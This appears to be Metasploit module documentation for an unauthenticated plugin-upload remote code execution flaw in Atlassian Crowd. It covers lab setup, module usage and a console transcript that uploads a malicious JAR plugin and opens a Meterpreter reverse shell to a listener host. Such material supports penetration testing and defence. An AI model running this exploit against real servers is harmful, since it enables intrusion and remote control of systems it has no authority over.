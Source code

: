## Vulnerable Application

Atlassian Crowd 2.1.x prior to 3.0.5, 3.1.x prior to 3.1.6, 3.2.x prior to 3.2.8, 3.3.x prior to 3.3.5, and 3.4.x prior to 3.4.4
had an incorrect installation of the pdkinstall development plugin, which allows unauthenticated remote attackers to upload and install
arbitrary plugins on vulnerable Atlassian Crowd and Atlassian Crowd Data Center installations via a POST request to the
`/<crowd install base>/admin/uploadplugin.action` page.

Successful exploitation results in remote code execution as the user running the Atlassian Crowd server.

To set up a vulnerable installation:
1. Grab a copy of Windows, any version will do but I tested on Windows 10.
1. Grab a copy of the 3.0.3 version of Atlassian Crowd from https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.0.3.zip
1. Grab a copy of the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environent variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Extract the Atlassian Crowd zip.
1. Edit the `atlassian-crowd-3.0.3\apache-tomcat\bin\catalina.bat` file and remove all the `-Djava.endorsed.dirs` options.
1. Run `start_crowd.bat`
1. After a few minutes browse to `http://localhost:8095/crowd/` and click the blue button to do a new install.
1. Follow the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.

## Verification Steps

1. Follow the steps in `Vulnerable Application`
1. `use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce`
1. Set `RHOST` to the target IP
1. Set `LHOST` to your local IP
1. `exploit`
1. You should get a shell back as the user running the Atlassian Crowd application.

## Options

## Scenarios

### Atlassian Crowd 3.0.3 on Windows 10 20H2
```
msf6 > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 192.168.224.204
RHOSTS => 192.168.224.204
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 192.168.224.128
LHOST => 192.168.224.128
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.224.204  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Jira
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.224.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try install an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating its vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 192.168.224.204
[*] Meterpreter session 1 opened (192.168.224.128:4444 -> 192.168.224.204:53871) at 2021-07-30 11:56:38 -0500

meterpreter > getuid
Server username: test
meterpreter > pwd
C:\Users\test\Desktop\atlassian-crowd-3.0.3
meterpreter >
```

